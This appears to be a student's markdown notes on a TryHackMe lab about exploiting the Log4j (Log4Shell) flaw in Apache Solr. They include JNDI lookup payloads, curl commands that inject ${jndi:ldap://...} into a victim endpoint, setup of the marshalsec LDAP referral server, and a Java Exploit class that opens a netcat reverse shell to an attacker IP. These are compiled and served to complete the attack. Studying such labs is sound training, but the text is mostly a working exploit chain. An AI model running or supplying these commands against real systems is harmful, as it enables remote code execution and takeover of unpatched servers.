 # Log4j
https://tryhackme.com/room/solar

## What makes it dangerous?
1. easy to exploit
2. abundant
3. gives remote code execution

## What features are exploited in Log4j?
1. JNDI
2. Support for message lookups

## What are the apps affected so far?
https://github.com/YfryTchsGD/Log4jAttackSurface

## what are more resources to check on the vuln?
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
https://log4shell.huntress.com/
https://www.youtube.com/watch?v=7qoPDq41xhQ

## investigating the apache solr logs
`/vas/solr/logs/solr.log`


## by viewing the logs:
`2021-12-13 04:01:58.351 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0`
## we notice that there's an HTTP solr call in the path `/admin/cores` and the params are empty braces where user input can be injected and evaluated as code

## Example statments that can be evaluated:
- `${sys:os.name}`
- `${sys:user.name}`
- `${log4j:configParentLocation}`
- `${ENV:PATH}`
- `${ENV:HOSTNAME}`
- `${java:version}`

## the payload however leverages the JNDI (Java Naming & Directory Interface) which can access external resources
`{JNDI:LDAP://<ATTACKERCONTROLLEDHOST>}`

## Question is: what location can we use this payload?
## the answer is: ANYWHERE that's logged by log4j
- Input user/password login forms
- Data entry points in the application
- HTTP Headers like User-Agent, X-Forwarded-For or other headers

*In short: any place for user-supplied data*

## More information on JNDI Attack vector
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

## Checking if the vuln exists, we run a curl
`curl 'http://<VICTIM>:8983/solr/admin/cores?edelo=$\{jndi:ldap://<LHOST>:<LPORT>\}'`
## we get a connection back on our listening port
![Log4J Detection](Log4J-Detection.jpg)

## the response was ugly because our netcat listener wasn't a proper **LDAP handler**
## will use a special server called **LDAP Referral Server** (https://github.com/mbechler/marshalsec) to redirect the request from the victim machine somwhere else where we host our **Mailicous Java Code**

## Steps should be as below:
1. `${jndi:ldap://<ATTACKER-IP>:1389/Resource}` --> request to our LDAP referral server
2. LDAP server *bounces* the request over to our http server hosting the java malicious `.class` file
3. class file gets executed and we get our reverse shell

## Youtube video of the attack demo
https://youtu.be/OJRqyCHheRE

## Building the LDAP Referral server
1. update apt
`apt update -y`
2. install maven
`apt install maven -y`
3. clone marshalsec repository
`git clone https://github.com/mbechler/marshalsec.git`
4. build the **martialsec** utility:
`mvn clean package -DskipTests`

## we now start the ldap server taking note to set the variables to point to our HTTP server where the evil payload will be hosted :D
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<ATTACK-IP>:8000/#Exploit"`
## The server should be listening like the screenshot below:
![LDAP Server Listening](LDAP-Referral-Server-Listening.jpg)

## we will create a java payload that sends a reverse shell back to our attacker machine
## code is as below:
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <ATTACKER-IP> <ATTACKER-PORT>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
## we save the file as `Exploit.java`
## **The above step is importatnt** to make sure the payload matches what we specified in the LDAP referral server:
`marshalsec.jndi.LDAPRefServer "http://<ATTACK-IP>:8000/#Exploit"` <-- note the `#Exploit` name

## we proceed to install java development kit
`apt install default-jdk -y`

## then move on to compile the `Exploit.java` file to get the malicious `Exploit.class` file
`javac Exploit.java -source 8 -target 8`

## we then set up our python http server to host our payload
`python3 -m http.server`

## and we invoke our curl
`curl 'http://<VICTIM-IP>:8983/solr/admin/cores?foo=$\{jndi:ldap://<ATTACKER-IP>:1389/Exploit\}'`

## The attack chain should be like the below image:
![Log4j Exploitation Sequence](Log4j-Exploitation-Sequence.jpg)